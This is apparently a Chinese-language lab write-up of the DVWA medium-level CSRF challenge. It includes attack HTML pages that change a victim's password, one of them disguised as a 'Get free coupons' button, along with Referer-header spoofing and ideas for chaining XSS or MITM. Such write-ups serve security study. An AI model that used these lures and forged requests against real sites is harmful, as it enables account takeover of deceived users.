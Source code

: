 # Cross Site Request Forgery (CSRF)

> Medium Level
For the medium level challenge, there is a check to see where the last requested page came from. The developer believes if it matches the current domain, it must of come from the web application so it can be trusted.
It may be required to link in multiple vulnerabilities to exploit this vector, such as reflective XSS.

看提示有寫說後端會判斷 request 是否來自同一個網域，代表我必須在 DVWA 以外的網域建立一個惡意頁面模擬攻擊場景

現在瀏覽器也有 CORS 限制，也就是禁止不同網域的請求，因此要克服這兩個因素

跨來源資源共用（CORS） - HTTP | MDN
[https://developer.mozilla.org/zh-TW/docs/Web/HTTP/CORS](https://developer.mozilla.org/zh-TW/docs/Web/HTTP/CORS)

要繞過 CORS 和 request 來源檢查我大概會參考到至少這兩個條件:

1. 將 request 轉為後端傳送，這樣就可以突破瀏覽器的 CORS 限制 (但前提是你需要有對方的 cookie 或 csrf token)
2. 更改 request header 裡的 `Referer` 欄位以偽照來源

但是不同域名的話就無法取得 user 的 cookie 內的 PHPSESSIONID 🤔，不知道有沒解法 ?

## Test trigger CSRF attack from other domain

### By GET img tag

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>csrf by GET</title>
</head>
<body>
set password to: 1111
<img src="http://localhost:8086/vulnerabilities/csrf/?password_new=1111&password_conf=1111&Change=Change">
<script>
  console.log(`your cookie is: ${document.cookie}`)
</script>
</body>
</html>
```
先建立一個測試用的 server，用來放惡意攻擊頁面

惡意頁面網址:

```
http://192.168.0.196:8080/get-img.html
```

瀏覽器會將 DVWA 的網址 http://localhost:8086/vulnerabilities/csrf/ 和惡頁面的網址視為不同域名

### 假裝是受害者被騙連到惡意網頁

![假裝是受害者被騙連到惡意網頁](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/630b70ea-e67c-4c69-95c4-27e344b54cf1/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T035944Z&X-Amz-Expires=86400&X-Amz-Signature=955a6e04aab80743535c1d6832bfb43a1c9890caecd5687015623c89d56627e5&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![假裝是受害者被騙連到惡意網頁](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/f98de600-4844-4322-9e72-f7a4b79eb39f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T040004Z&X-Amz-Expires=86400&X-Amz-Signature=891412560875d25c96a1e88d1b3607cb05ca6f1f3286ff62d9c71f894c9bbb08&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)



### failed

![failed](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/116efe83-b65d-40f8-b247-db202fcd8eb5/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T040058Z&X-Amz-Expires=86400&X-Amz-Signature=454d5731f61897edb5d6eff1457ed3715c5a0ed4e63e1fa7a17d1c0e11b1ab73&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

看來沒有效，失敗 😭，get img tag 的方式沒辦法用於不同域名的場景

---
### By GET Form

這邊是參考別人的 writeup，做一個 GET form 從惡意頁面跳轉到目標網域的頁面

為了方便觀察就不隱藏表單了

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>csrf by POST</title>
  <script src="https://unpkg.com/axios/dist/axios.min.js"></script>
</head>
<body>
set password to: 1111

<form action="http://localhost:8086/vulnerabilities/csrf/" method="get">
  <input type="xhidden" name="password_new" value="1111"/>
  <input type="xhidden" name="password_conf" value="1111"/>
  <input type="hidden" name="Change" value="Change"/>
  <input type="submit" value="Get free coupons 💸💸💸"/>
</form>
</body>
</html>
```
塞一個 form 給受害者點下去跳轉，理論上應該是可以，但實在是太可疑了XD，會讓人起疑心 除非能夠在瞬間又跳轉到其他頁面，目前想到的可能的場景是分享,重設密碼,串這跳轉這類功面能性頁，這類功能通常是一瞬間就被重導走，而且帶有參數可以讓你指定接下來要跳轉到哪邊去

另一種場竟是我已經拿下 DVWA 網域的某個頁面，再讓受害者跳轉到這個 CSRF 頁面

![That request didn't look correct.](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b7a07cdb-ac3b-4044-916e-7afb3ecc3136/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T040207Z&X-Amz-Expires=86400&X-Amz-Signature=bf76732e0fc0d3fc22214d2d5032a28bb19612965faaa2ddd7385b167f72f27c&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```html
That request didn't look correct.
```
### Intercept and change Referer value (Tamper Data)

想辦法讓 header 變成跟 DVWA 的一樣，要做到這件事必須從中攔截再修改

可以使用 Tamper Data 或 Burp Suite

Tamper Data for FF Quantum – 下載 🦊 Firefox 擴充套件（zh-TW）
[https://addons.mozilla.org/zh-TW/firefox/addon/tamper-data-for-ff-quantum/](https://addons.mozilla.org/zh-TW/firefox/addon/tamper-data-for-ff-quantum/)

```
Referer http://localhost:8086/vulnerabilities/csrf/
```

進入惡意頁面，按下送出
![tamper data](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b443baeb-2271-4740-a2a1-d4dc91ebfcb2/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T042909Z&X-Amz-Expires=86400&X-Amz-Signature=b739b0c296058934c70baa36083ad5a60834826f25c361712540ad2e03b40ff2&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![tamper data](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/073b8349-3065-4c67-bc95-be0f1b5766e8/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043047Z&X-Amz-Expires=86400&X-Amz-Signature=1b5d13c018618efa63b9e882681f2c153331fd0e01b166de83cfe8c324c609a7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

Before
![before](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/9805fb6d-c1aa-45e6-92d9-1e0f1ffab0b2/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043129Z&X-Amz-Expires=86400&X-Amz-Signature=05f02453502fe2c30030cf8c52d5adc52d88725885f62cd5a23ffcc14d980abc&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

After
![after](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/2f621a8d-c2ce-4644-8b0c-a4196e319e08/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043150Z&X-Amz-Expires=86400&X-Amz-Signature=8a9e0410a8b49b52995111f5fc24d0868bce8cf9306b0388812409699325f548&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

### Done
![done](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d7d4cba8-ace3-4196-8ff6-26bd1fdaaa8e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043241Z&X-Amz-Expires=86400&X-Amz-Signature=8816c29b3c2ccc0c2cb00cd0fd52306e06ba17f5d4593d19ea5235ead428cb37&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---

### 夠過用 Network panel 修改
接下來所做的操作跟之前使用 tamper data 的流程差不多，只是工具不同

如果有在 Network 設定開啟 log 紀錄保存 (Persist Logs) 的話就可以看到跳轉後的 request，接著再回到惡意頁面修改 Referer

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ff68ec45-3783-469d-9738-5b85a5306a60/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043642Z&X-Amz-Expires=86400&X-Amz-Signature=42e39ee3f3f43b2d00e5d3971eb147c62c6789801014a0a65a1e1b7a803d8d8e&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/1018f2c6-3b16-4d66-84e5-7431140aaf78/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043716Z&X-Amz-Expires=86400&X-Amz-Signature=7b849c91ad9ea168a1d0fbdb163113c3f5e600892a57557875363878306a9b14&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4fbf987c-624b-4db2-9ed7-75667d4ab672/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043725Z&X-Amz-Expires=86400&X-Amz-Signature=a086b6e7d76a207395be244386fc8f2b29f47f102fab47fd0c63c724fc655ce4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---

### memo:

一些心得和未經過驗證的想法，先記錄一下

若要做到自動串改的話，也許可以從這些地方下手

- 惡意瀏覽器套件
- MITM
- 濫用目標網站的跳轉功能 (可能可以搭配 XSS)
- 對付 Referer 用竄改，對付 token 用擷取

如果從目標網站再進行間接跳轉不知道可不可行 ? 也就是最後會重導回惡意頁面，避免被察覺😶‍🌫️

```html
惡意頁面 -> DVWA page A (XSS) -> 惡意頁面
```

但在這之前要先確認 DVWA page A 上是否有能夠有 XSS 的地方或能濫用的功能
